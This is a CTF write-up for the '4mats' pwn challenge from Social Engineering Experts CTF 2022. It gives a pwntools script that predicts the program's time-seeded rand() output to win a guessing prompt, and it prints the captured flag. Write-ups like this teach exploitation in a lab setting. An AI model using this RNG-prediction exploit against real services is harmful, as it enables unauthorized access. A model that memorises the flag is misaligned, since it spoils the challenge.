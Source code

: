 ```yaml
---
name: 4mats (2022)
event: Social Engineering Experts CTF 2022
category: Pwn
description: Writeup for 4mats (Pwn) - Social Engineering Experts CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# 4mats

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-cc4U1H53F8/0.jpg)](https://youtu.be/-cc4U1H53F8?t=1199 "Social Engineering Experts CTF 2022: 4mats")

## Description

> Lets get to know each other

## Solution

```py
from pwn import *
from time import time
from ctypes import CDLL

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./vuln', checksec=False)

# Lib-C for rand()
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')

# Create process (level used to reduce noise)
io = process(level='error')  # Local
# io = remote('fun.chall.seetf.sg', 50001)  # Remote

io.sendlineafter(b':', b'crypto')  # Submit name

io.sendlineafter(b'2. Do I know you?', b'1')  # Guess value

libc.srand(int(time()))  # Call srand() with current time as seed
guess = libc.rand() % 1000000  # Predict computers turn

io.sendlineafter(b'Guess my favourite number!', str(guess).encode())  # Submit guess

io.recvlines(2)
info(io.recv().decode())  # Print flag
```

Flag: `SEE{4_f0r_4_f0rm4t5_0ebdc2b23c751d965866afe115f309ef}`
